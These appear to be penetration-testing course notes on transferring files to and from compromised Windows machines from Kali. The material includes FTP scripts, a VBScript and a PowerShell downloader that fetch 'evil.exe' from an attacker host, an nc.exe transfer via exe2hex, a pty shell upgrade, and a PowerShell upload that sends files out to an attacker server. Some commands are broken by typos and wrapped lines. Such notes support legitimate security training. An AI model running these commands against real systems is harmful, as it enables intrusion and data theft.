 do not install new tool, use native tools

# pure-ftpd
//install on kali
sudo apt update && sudo apt-y install pure-ftpd

# non-interactive shells
lack job control, su support, etc. or any feedback on what we are doing

* ``ls`` command not interactive
* ``ftp`` is an interactive program (requires user interaction to complete)
* go get interactive shell:
``python -c "import pty;pty.spawn('/bin/bash')"``

# windows 
## File transfer via FTP
* in our kali place this binary: ``sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/``
* restart ftp: ``sudo systemctl restart pure-ftpd``
* on target windows system: transfer file of *ftp.txt* by typing: ``ftp -v -n -s:ftp.txt`` should be the kali ip, *kali* is the ftp pw in this file
* The ftp -s option accepts a text-based command list that effectively makes the client noninteractive.

## Windows Downloads Using Scripting Languages
### older windows systems
#### typing following commands in a windows system's cmd
``` c
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wge
t.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.
vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
#### execute wget
* use (file)[scripts\filedownload\wget.vbs] to get download a file
* cpy the wget on linux by ``sudo cp /usr/share/windows-resources/binaries/wget.exe /var/www/html/``
* start apache
* execute command ``cscript wget.vbs http://10.11.0.4/evil.exe evil.exe``

## newer windows system with powershell
### install wget
```
C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
C:\Users\Offsec> echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1
C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1
C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
more on offsecs slides

### decreasing file size
compresses file by 50%
``sudo upx -9 nc.exe``

## file downloads via e2ehex and powershell
* decreate file size (see previous comment)
* execute script: ``exe2hex -x nc.exe -p nc.cmd``
* generates a nc.cmd via hex code
* copy commands from nc.cmd in the clipboard by: ``cat nc.cmd | xclip -selection clipboard``
* we can paste i then into our windows machine cmds (bind shell) 

## getting data from a client to our kali machine (via http post request)
* create [upload.php](scripts/filetransfers/upload.php) file in ``var/www/html/upload.php``
* create uploads folder in apache ``sudo mkdir /var/www/uploads``
* modifying folder permissions: ``ps -ef | grep apache`` by giving the www-data user owner and write permissions on oploads folder: ``sudo chown www-data: /var/www/uploads``
* On windows machine run: ``powershell(New-Object System.Net.WebClient).UploadFile('http://192.168.0.9/upload.php', 'fileToTransfer.jpg')``

# for very old windows machines
* first install an configure tft servers in kali
=> see slides